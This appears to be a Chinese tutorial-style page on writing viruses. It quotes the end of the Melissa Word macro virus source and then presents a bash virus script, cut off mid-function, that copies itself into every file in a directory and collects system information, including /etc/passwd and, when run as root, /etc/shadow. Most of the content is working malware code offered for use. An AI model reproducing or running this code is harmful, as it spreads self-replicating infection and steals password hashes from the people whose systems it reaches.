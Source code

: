 ```vbscript
      End If    
'Part4
'假如午时已到，告诉感染者你已经被感染23333333333
'
'WORD/Melissa written by Kwyjibo
'Works in both Word 2000 and Word 97
'Worm? Macro Virus? Word 97 Virus? Word 2000 Virus? You Decide!
'Word -> Email | Word 97 <--> Word 2000 ... it's a new age!

If Day(Now) = Minute(Now) Then Selection.TypeText " Twenty-two points,
    plus triple-word-score, plus fifty points for using all my letters.
    Game's over.  I'm outta here."

End Sub
```









### 写一个bash病毒



附：现shell脚本：https://www.runoob.com/linux/linux-shell.html

> 注意变量赋值之间没有空格，踩坑踩了很久才发现
>
> 



 实现了感染目录下将自身复制到每个文件里，并记录感染文件至`.bak/filelist_log`

并获取信息到`.bak/info`目录下

```sh
#!/bin/bash
#MagicFuck

whoami="$(whoami)"
path="$(pwd)"
file_list=$(ls $path)
echo -e "$whoami in $path fucking your file\n"
touch /tmp/v_tmp
tmp='/tmp/v_tmp'
cat "$path/$0" > $tmp

# backup
mkdir .bak
cp -r * .bak
mkdir $path/.bak/info
touch $path/.bak/info/filelist_log

cat /proc/meminfo >> $path/.bak/info/meminfo
cat /proc/cpuinfo >> $path/.bak/info/cpuinfo
cat /etc/hostname >> $path/.bak/info/hostname
cat /etc/passwd >> $path/.bak/info/passwd
if test $whoami = 'root';
then
	touch $path/.bak/info/shadow
	cat /etc/shadow >> $path/.bak/info/shadow
fi


function fuckfile(){
	file_list=$(ls $pwd)
```